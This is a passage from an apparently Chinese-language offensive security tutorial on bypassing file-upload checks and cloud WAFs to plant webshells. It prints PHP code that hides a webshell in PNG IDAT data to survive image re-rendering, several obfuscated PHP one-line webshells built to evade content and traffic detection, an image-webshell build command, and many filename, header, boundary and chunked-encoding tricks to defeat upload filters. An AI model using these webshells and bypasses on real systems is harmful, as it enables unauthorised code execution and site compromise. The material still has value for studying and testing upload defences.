
 最终也是达到了可以指定GIF图、指定Payload的效果。  
#### PNG 二次渲染
**写入PLTE数据块**
 这种方式只针对索引彩色图像(index-color images)有效，使用[poc_png](https://github.com/hxer/imagecreatefrom-/tree/master/png/poc)工具写入。但是怎么看图片是否是索引彩色图像呢？可以使用Python库[pillow](https://pillow.readthedocs.io/en/latest/handbook/concepts.html#modes)来识别图像的模式，P就是索引彩色图像：  

 输出图像模式的代码实现：  
```python
#-*- coding:utf-8 -*- 
from PIL import Image 
path = 'input.png' 
img = Image.open(path) 
print(path+" mode:"+img.mode) 
path = 'php.png' 
img = Image.open(path) 
print(path+" mode:"+img.mode)

```
 转换图像模式到索引彩色图像：  
```python
#-*- coding:utf-8 -*- 
from PIL import Image 
path = 'input.png' 
img = Image.open(path) 
print(path+" mode:"+img.mode) 
img = img.convert('P') 
img.save('new.png') 
print(path+" mode:"+img.mode)
```

#### 写入 IDAT 数据块
 可以通过php脚本实现，也可以使用其他语言实现的项目，Python：[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)：  
```php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23, 0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae, 0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc, 0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f, 0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c, 0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d, 0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1, 0x66, 0x44, 0x50, 0x33); 
$img = imagecreatetruecolor(32, 32); 
for ($y = 0; $y < sizeof($p); $y += 3) { 
  $r = $p[$y]; $g = $p[$y+1]; 
  $b = $p[$y+2]; 
  $color = imagecolorallocate($img, $r, $g, $b); 
  imagesetpixel($img, round($y / 3), 0, $color); 
} 
imagepng($img); 
// php png_payload.php > 1.png 
// <?=$_GET[0]($_POST[1]);?> //写入的webshell
```
 其他的webshell需要通过爆破的方法得到，参考：[https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
### 总结
从这个实例中，研究了GIF、PNG、JPG图片二次渲染，并整理了生成工具。在漏洞点有二次渲染且存在阿里云WAF的情况下，getshell的流程方法。包括:
1.换行绕过阿里云WAF上传文件检测；
2.jpg_paylaod脚本绕过图片二次渲染；
3.webshell免杀过云WAF上传;
4.流量编码过WAF流量检测。
5.一些用到的基础PHPwebshell:
```php
//过文件内容检测 
<?=@$_=$_REQUEST;eval(array($_[_])[0]); 
<?=@$_=$_POST;call_user_func_array("assert",array($_[_])); 
//过文件内容和流量检测 
<?=@$_=$_POST;$x=BASE64_DECODE($_[d]);@EVAL(($x));

```
## 绕过总结
### 0x1 前端检测
```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

1. 禁用JavaScript（不适用于由js框架开发的web系统）
2. 修改webshell 文件后缀，抓包在burp里修改


### 0x2 MIME-Type验证

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```


1. 上传webshell，抓包在burp修改Content-Type 为以上
2. 修改webshell文件后缀，抓包在burp里修改文件后缀


### 0x3 黑名单检测
#### 扩展名绕过

1. Asp：asa，cer，cdx
2. Aspx:  ashx，asmx，ascx
3. PHP：phtml，php3
4. JSP: jspx，jspf


#### windows 特性

1. 文件名后添加空格
2. 文件名后添加点
3. 文件名后添加点空格点(`. .`)
4. 文件名大小写
5. 文件流`::$DATA`
6. 双写
   1. 双写文件后缀名
   2. 双写`::$DATA`
   3. 等等


#### Apache 特性

1. Apache 解析漏洞，碰到不认识的扩展名时 , 将会从后向前解析 , 直到碰到认识的扩展名位置 , 如果都不认识 , 则会暴露其源码  
2. Apache .htaccess 解析任意文件为php
3. Apache 扩展解析（AddType application/x-httpd-http）


#### Linux 特性

1. 文件名后添加/ （http put上传可行）


### 0x4 白名单检测

1. 00截断（文件名可控）
2. 图片马配合文件包含
3. 条件竞争


### 0x5 文件头检测

1. 添加文件头（常用GIF89a）


### 0x6 文件体检测

1. 图片马
```shell
copy hack.jpg/b + info.php hack.jpg
```

2. 二次渲染
   1.  关于绕过二次渲染,只需要找到渲染前后没有变化的位置,然后将shell代码写进去,就可以成功上传带有代码的文件了


### 0x7 其他方法（绕WAF）
#### filename 改造

- 名字特殊符号替换以及构造异常闭合
```http
filename='shell.jspx.jsp'
filename=shell.jspx.jsp
filename=shell.jspx.jsp'
"filename"=shell.jspx;
```

- 重写
```http
filename=shell.jpg;filename=shell.jspx;
filename=shell.jspx;filename=shell.jpg;
```

- 大小写变化
```http
FileName=shell.jspx.jsp'
```

- 参数污染
```http
FileName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaashell.jspx.jsp'
FileName =shell.jspx（加空格）
filename===="shell.jspx.jsp1"（加等号）
FileName =shell.jspx（前后加空格，中间也可以加特殊符号fuzz）
```

- 文件名字编码（filename一般为后端接收参数，编码了可能识别不到，这个就看情况）
```http
filename=\u0073\u0068\u0065\u006c\u006c\u002e\u006a\u0073\u0070
```

- 回车换行（有时候确实挺好用的，任意位置都可以试一下）
```http
FileName=shell.jspx.
jsp


File
Name=shell.jspx.jsp
```
#### name 改造
name也可以任意改造，改造的方法和filename差不多，就不重复发了，主要是思路重要。
其他的比如奇奇怪怪的正则需要用到的特殊字符都可以在文件名中fuzz一下，看看能否打断waf规则，也就是把我们fuzz后缀的再跑一次，或者再找点其他的正则字母。
#### http 头部格式改造

- Content-Disposition
   - 溢出绕过
```http
Content-Disposition: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa form-data; name="file"; filename=shell.jpg;filename=shell.jspx;
```

   - 回车换行绕过(不要将固定字符打散)
```http
Content-Disposition:
form-data; name="file"; filename=shell.jpg;filename=shell.jspx;
```

   - 双写绕过
```http
Content-Disposition: form-data; name="file"; filename=shell.jpg;filename=shell.jspx;
Content-Disposition: form-data; name="file"; filename=shell.jpg;filename=shell.jspx.jpg;
```

   - 参数污染加减空格等等
- boundary
   - 加减空格或者前面加恶意的参数
```http
boundary =---------------------------8472011224916008542288311250
&boundary =---------------------------8472011224916008542288311250
```

   - 多个污染（他是用来分割的，他变了下面的也要变一下）
```http
boundary =---------------------------8472011224916008542288311251
boundary =---------------------------8472011224916008542288311252
```

   - 回车换行污染
   - 分割污染
- Content-Type
   - 直接删除
   - 修改类型为application/text或者 image/jpeg等等
   - 回车换行
   - 溢出
   - 参数污染
   - 重复传入Content-Type
   - 大小写变换
   - 设置charset
```http
Content-Type: multipart/form-data;charset=iso-8859-13
列举几个
ibm869
ibm870
ibm871
ibm918
iso-2022-cn
iso-2022-jp
iso-2022-jp-2
iso-2022-kr
iso-8859-1
iso-8859-13
iso-8859-15
```

- Accept-Encoding 改变编码类型
```http
Accept-Encoding: gzip
Accept-Encoding: compress
Accept-Encoding: deflate
Accept-Encoding: br
Accept-Encoding: identity
Accept-Encoding: *
```

- 修改请求方式，尝试put/get
- 修改host 头部
```http
对host进行回车，换行
修改host头部
host跟链接
host改为127.0.0.1
删除host
```
#### 分块传输
 在头部加入 Transfer-Encoding: chunked 之后，就代表这个报文采用了分块编码。这时，post请求报文中的数据部分需要改为用一系列分块来传输。每个分块包含十六进制的长度值和数据，长度值独占一行，长度不包括它结尾的，也不包括分块数据结尾的，且最后需要用0独占一行表示结束。编码过程中长度需包括空格的长度。最后用0表示编码结束，并在0后空两行表示数据包结束，不然点击提交按钮后会看到一直处于waiting状态。
#### 免杀马
高效且实用
#### 代码执行处注入内存马
[Tomcat 内存马基础](https://www.yuque.com/da-labs/secnotes/ro4qph)
## 参考链接
[https://mp.weixin.qq.com/s/DHsv-DXvxbzYdLVevfdS0A](https://mp.weixin.qq.com/s/DHsv-DXvxbzYdLVevfdS0A)

[https://yanghaoi.github.io/2021/11/24/php-ren-yi-wen-jian-shang-chuan-rao-guo-duo-chong-xian-zhi/](https://yanghaoi.github.io/2021/11/24/php-ren-yi-wen-jian-shang-chuan-rao-guo-duo-chong-xian-zhi/)

[https://blog.csdn.net/weixin_45146120/article/details/103462910](https://blog.csdn.net/weixin_45146120/article/details/103462910)

[https://xz.aliyun.com/t/10515](https://xz.aliyun.com/t/10515)

